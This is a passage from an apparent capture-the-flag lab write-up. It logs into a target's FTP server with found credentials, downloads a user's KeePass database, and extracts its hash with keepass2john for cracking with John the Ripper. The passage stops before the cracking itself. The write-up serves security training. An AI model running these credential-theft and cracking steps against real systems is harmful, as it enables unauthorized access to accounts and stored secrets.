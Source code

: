 Now we have both a username and password to log into the FTP server!

### Port 21 FTP <a id="bba9"></a>

Log into FTP.

```text
root@kali:~# ftp 10.10.10.59
Connected to 10.10.10.59.
220 Microsoft FTP Service
Name (10.10.10.59:root): ftp_user
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.
```

View the files in the current directory.

```text
ftp> dir
200 PORT command successful.
150 Opening ASCII mode data connection.
08-31-17  10:51PM       <DIR>          From-Custodian
10-01-17  10:37PM       <DIR>          Intranet
08-28-17  05:56PM       <DIR>          Logs
09-15-17  08:30PM       <DIR>          To-Upload
09-17-17  08:27PM       <DIR>          User
226 Transfer complete.
```

Navigating through the directories, we find a KeePass database in Tim’s directory.

```text
ftp> pwd
257 "/User/Tim/Files" is current directory.ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
09-15-17  07:58PM                   17 bonus.txt
09-15-17  08:24PM       <DIR>          KeePass-2.36
09-15-17  08:22PM                 2222 tim.kdbx
226 Transfer complete
```

Download the database to our attack machine.

```text
ftp> get tim.kdbx
```

The KeePass database is password protected. In order to crack the password using John the Ripper \(JtR\), we’ll have to extract a JtR compatible hash of the password. This can be done as follows.

```text
keepass2john tim.kdbx > hash.txt
```

Then run JtR on the hash.
